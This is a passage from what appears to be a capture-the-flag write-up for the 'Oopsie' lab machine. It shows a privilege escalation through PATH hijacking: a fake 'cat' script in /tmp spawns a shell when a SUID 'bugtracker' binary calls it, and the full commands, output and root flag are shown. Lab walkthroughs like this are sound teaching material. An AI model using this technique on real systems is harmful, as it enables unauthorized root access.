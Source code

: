 Unfortunately the executable is compiled, but from the above `cat` error we can gleam that `cat` is used to print some report file.  What we can do is something very clever: create our own `cat` executable and give it priority in path so that the `bugtracker` command uses this instead!  If our own cat creates a shell of its own, then we will have root privileges!
```bash
robert@oopsie:~$ cd /tmp
cd /tmp
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
robert@oopsie:/tmp$ echo '/bin/bash' > cat && chmod +x cat
echo '/bin/sh' > cat && chmod +x cat
```

Now running `bugtracker` once more we look to have silent success:
```bash
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 1
1
---------------

root@oopsie:/tmp#
```

Indeed, we are now a root user!  We can collect our flag and leave at once.
```bash
root@oopsie:/tmp# whoami
whoami
root
root@oopsie:/tmp# cd /root
cd /root
root@oopsie:/root# ls -A
ls -A
.bash_history  .cache	.gnupg	.profile  root.txt  .viminfo
.bashrc        .config	.local	reports   .ssh
root@oopsie:/root# PATH=$(getconf PATH)
PATH=$(getconf PATH)
root@oopsie:/root# cat root.txt
cat root.txt
af13b0bee69f8a877c3faf667f7beacf
```

<br>

---

<br> 

## Notes

